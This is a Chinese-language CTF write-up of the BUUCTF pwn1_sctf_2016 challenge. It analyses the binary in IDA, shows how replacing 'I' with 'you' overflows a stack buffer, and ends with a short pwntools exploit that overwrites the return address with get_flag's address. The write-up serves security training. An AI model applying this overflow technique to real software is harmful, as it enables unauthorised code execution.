








# [[Buuctf]pwn1_sctf_2016](https://buuoj.cn/challenges#pwn1_sctf_2016)

## 知识点


## 解题步骤

1. `nc`连接试一试

     

- 程序会输出用户的输入  

2. 照例看一下程序开了哪些保护机制      
- 程序只开启了`NX`保护（无法直接执行`shellcode`）     
- 程序为`32`位    

      

3. 使用`ida`查看一下程序的`字符串`相关信息             

- `strings`窗口中出现了`cat flag.txt`     

       

4. `ctrl+x`查看那个函数调用了这个字符串     

- `get_flag`函数调用了`cat flag.txt`      

        

- `get_flag`的地址`08048F0D`    

     

5. 查看一下`主函数`的伪代码        

- `fgets`：会从`edata`中取**32**个字节到`s`里面     
- 如果想从`s`溢出，需要填满`3c(60)字节`，但是`fgets`限制了输入为`32`字节，无法造成溢出          

       

6. 但是函数中有一个关键点
```c++
// 我的ida不知为何转换成伪代码时转换成这个样子……
// replace((std::string *)v3);
replace(&v4,&input,&v7)   //用&v7对应的字符串，替换掉从&v4开始，长度为&input
```
- 他人的博客解释说指会将`I`替换成`you`，虽然没从提供的代码中逻辑中看出来这一点，但是实验一下的确是            

        

- 当输入的`I`被转化成`you`后，那么`60`个字节只需要`20`个`I`，就可以到达`ebp`，然后再用`4`字节进行替换，就可以覆盖返回地址为输出flag的函数地址，就可以完成利用
7. 完成`exp`
```python
from pwn import*

r=remote("node4.buuoj.cn",28076)
flag_addr=0x8048f0d
payload=b'I'*20+b'aaaa'+p32(flag_addr)  # b：防止python3运行时报错
r.sendline(payload)

r.interactive()

```

     

## 参考资料

- [[BUUCTF]PWN4——pwn1_sctf_2016](https://blog.csdn.net/mcmuyanga/article/details/108202748)
- [BUUCTF之pwn题解（一些栈题+程序分析）](https://blog.csdn.net/qq_51032807/article/details/112545011)